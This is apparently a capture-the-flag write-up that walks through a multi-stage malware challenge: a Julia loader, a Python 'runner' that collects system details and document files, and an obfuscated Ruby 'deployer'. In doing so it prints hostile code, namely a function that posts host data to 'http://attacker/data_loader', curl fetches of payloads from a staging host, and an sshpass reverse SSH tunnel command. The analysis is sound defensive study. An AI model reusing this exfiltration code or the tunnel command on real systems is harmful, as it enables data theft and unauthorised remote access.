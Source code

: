 # Categorization

> Points: 3

> URL: https://drive.google.com/file/d/1IcpKHrthOXOsELZltoRECinAFmvOqV6v/view?usp=sharing </br>
One of our clients detected malicious activity and submitted suspected code for analysis. This code, was downloaded as a tool for categorizing documents on the system.</br>You have been tasked with analyzing this file. What information can you uncover from it?

Installed `julia` according to official [documentation](https://julialang.org/downloads/platform/):

```
wget https://julialang-s3.julialang.org/bin/linux/x64/1.10/julia-1.10.2-linux-x86_64.tar.gz
tar zxvf julia-1.10.2-linux-x86_64.tar.gz
```

Executed `categorization.jl` :
```
# julia categorization.jl            
Resolving package versions...
No Changes to `~/.julia/environments/v1.10/Project.toml`
No Changes to `~/.julia/environments/v1.10/Manifest.toml`
Resolving package versions...
No Changes to `~/.julia/environments/v1.10/Project.toml`
No Changes to `~/.julia/environments/v1.10/Manifest.toml`
Bad Luck :)
```

Modified `categorization.jl` and added code after `decipherbytes` to write decrypted text to separate file:

```
...
decipherbytes = String(decrypt("AES256", :CBC, iv, encryption_key, cipherbytes))

open("decrypted.jl", "w") do file
  write(file, decipherbytes)

end
exit()
#include_string(Main, decipherbytes)
```

After running `julia categorization.jl`, file `decrypted.jl` was created where first flag was found:

```
# cat decrypted.jl                  
flag = "SK-CERT{3ncryp73d_jul14}"

response = HTTP.get("https://api.ipify.org/")
dat = String(response.body)
if occursin("198.18.2.2", dat)
        s = UInt8[
            0x97, 0x8c, 0x8d, 0x8e, 0xc9, 0xcb, 0xca, 0x93, 
....

```
> flag: `SK-CERT{3ncryp73d_jul14}`

# Payload

> Points: 3

> It appears that there was encrypted functionality within the file. Now, our objective is to understand what this functionality entails.

Looking at `decrypted.jl` from [previous step](#categorization), we see that some byte manipulation is happening, so we modify file to write `s` to output instead of passing it to `HTTP.get`. After running our modified `decrypted_modified.jl` we have second flag:

```
# julia-1.10.2/bin/julia decrypted_modified.jl
http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/runner#SK-CERT{53c0nd_m4l_f1l3}

```
> flag: `SK-CERT{53c0nd_m4l_f1l3}`

# Information

> Points: 3

> Downloading another file? Let's investigate and discover its purpose.

From [previous step](#payload) we identified that script is downloading `runner` file from http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/runner, so let's get it:

```
# curl http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/runner -o runner
# file runner   
runner: Python script, ASCII text executable, with very long lines (373)
```

After inspection it is nasty looking python script and as it goes with these, we need to find buried function/variable that would lead us to next step. So we start formatting the code, identifying interesting functions/variables and printing their values. We'll modify function `xx()` and print interesting variables:

```
def xx():
    E={
        'hostname':IllIIlIIllIlIlIll(),
        'cpu_info':IIlIllIlllIIIIIlI(),
        'memory_info':IllIlIIllIIlllIll(),
        'disk_info':IlIllIIIIIllIIlll(),
        'shared_folders':IIIllIlllIlIIIllI(),
        'network_info':IllIllIllIIIIIIII()
    };
    A='-8algDUBYg3_3qiLbEM3S-fDtYGgclI9H__L-6RdGBc2wOWr2ncYfQXsma_TMU13Ef8=';
    F=5133;
    B=bytearray();
    C=bytearray()
    for D in range(len(A)):
        B.append((F+D)*31%256)
    G=base64.urlsafe_b64decode(A)
    print(f'G:${G}')
    for(H,I)in zip(G,B):
        C.append(H^I)
    J=bytes(C).decode(_IlIIIlIIIlIlIIllI);
    print(f'J:${J}')
    requests.post(J,data=E)
            
xx()
exit(1)
```

We've printed variables `E`, `G` and `J` and also ended execution of script after calling `xx()` to ensure nothing else interfere. After running the script we get our flag:

```
# python runner_modified.py
do_connect: Connection to localhost failed (Error NT_STATUS_CONNECTION_REFUSED)
G:$b'\xfb\xc6\xa5\x805\x01b\r\xff\xde\xa8\x8blC7K\xe7\xc3\xb5\x81\xa0rR=\x1f\xff\xcb\xfb\xa4]\x18\x176\xc0\xe5\xab\xdaw\x18}\x05\xec\x99\xaf\xd31Mw\x11\xff'
J:$http://attacker/data_loader#SK-CERT{5y51nf0g47h3r}
```
> flag: `SK-CERT{5y51nf0g47h3r}`

# Functionality

> Points: 3

> Gathering information about the system? What other actions does this script perform?

Continuing from [previous task](#information), analyzing the next section of the `runner_modified.py` starting from line with `if os.path.isfile(G):` we can identify following:
 
- script proceeds if there is file `/etc/vsftpd.conf` (defined in variable `G`)
- it then looks for `local_root` within the conf file, must not be commented out, then
- takes the value of `local_root` and traverses through it `for(O,P,K)in os.walk(J):` looking for files ending in `.doc`,`.docx`, or `.txt` (defined in variable `I`)
- if it finds any such file, it decrypts byte array `B` and calls `requests.get`: `H=requests.get(bytes(B).decode('utf-8',errors='replace')[:56],stream=D)`

Our next steps:

- create file `/etc/vsftpd.conf`
- set `local_root` to `/tmp/test`
- create `sample.txt` file under `/tmp/test`
- before the `request.get` line, we add print and exit to read the decoded `B`:
    
    ```
    print(f"decoded B:{bytes(B).decode('utf-8',errors='replace')}")
    exit(1)
    ```
- run the modified script and get our flag:

   ```
   # python runner_modified.py
   decoded B:http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/deployer#SK-CERT{n3x7_574g3_d0wnl04d}
   ```
> flag: `SK-CERT{n3x7_574g3_d0wnl04d}`
# Last Stage

> Points: 12

> It appears we've reached the final stage of the malware. Our next step is to determine its intended purpose.

From [previous task](#functionality) we saw that `runner` python script is downloading and executing `deployer` from `http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/deployer`. Let's download it and look inside:

```
# curl http://int3.sk/b63f414c1f0c7f5bb1df45c34e0c733f/deployer -o deployer
# file deployer            
deployer: ASCII text, with very long lines (419)
# cat deployer
eval [114,101,113,117,105,114,101].map(&:chr).join + " '" + [115,111,99,107,101,116].map(&:chr).join + "'"
eval [114,101,113,117,105,114,101].map(&:chr).join + " '" + [100,105,103,101,115,116].map(&:chr).join + "'"
umygux = "vSv_dezmjFkWwVFN,vSv_enzmjFkWwVFN,sEYMbumygux"
....
```

Again obfuscated file that we inferred is [`ruby`](https://www.ruby-lang.org/en/) language of which we heard of but no clue. For this task we used [ChatGPT (free)](https://chat.openai.com/) to help us analyze the code and understand it's functionality. It was pretty helpful de-obfuscating it and eventually helped us get the flag. Following prompts were used:

- Can you pretty format the following ruby code?
- Can you replace ambiguous function and variable names with something more readable?
- Can you evaluate the first two lines of code?
- What will the value of "shared_key" will be?

After getting the know the code, we modified the `if` statement and also instead of calling `system` command, we used `puts`:

```
...
if true then puts(vSv_dezmjFkWwVFN.call("10160c43584316151849433.....
...
```

After modification, executed the script and got the final flag:

```
# ruby deployer_modified
sshpass -p SK-CERT{n3x7_574g3_d0wnl04d} ssh -R 1337:localhost:21 attacker@rand
```

> flag: `SK-CERT{n3x7_574g3_d0wnl04d}`